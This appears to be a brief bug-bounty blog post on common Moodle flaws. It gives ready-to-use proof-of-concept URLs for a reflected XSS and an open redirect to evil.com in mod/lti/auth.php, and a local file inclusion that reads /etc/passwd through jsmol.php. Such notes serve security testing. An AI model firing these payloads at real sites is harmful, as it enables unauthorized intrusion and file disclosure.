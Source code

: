 ```yaml
---
title: Doing Recon on a Large Scope
tags: [bug hunting, moodle]
categories: [bug hunting, moodle]
date: 2022-03-04 11:33:00
---
```


# Moodle Common Bugs

## Introduction
What would you do if you came across a website that uses Moodle?

## How to Detect
If you visit `https://target.com` and see the source code, you will see `<meta name="keywords" content="moodle,`

1. Reflected XSS in /mod/lti/auth.php via "redirect_url" parameter
```
https://target.com/mod/lti/auth.php?redirect_uri=javascript:alert(1)
```

2. Open redirect in /mod/lti/auth.php in "redirect_url" parameter

```
https://target.com/mod/lti/auth.php?redirect_uri=https://evil.com
```

3. LFI /filter/jmol/js/jsmol/php/jsmol.php in "query" parameter

```
https://target.com/filter/jmol/js/jsmol/php/jsmol.php?call=getRawDataFromDatabase&query=file:///etc/passwd
```
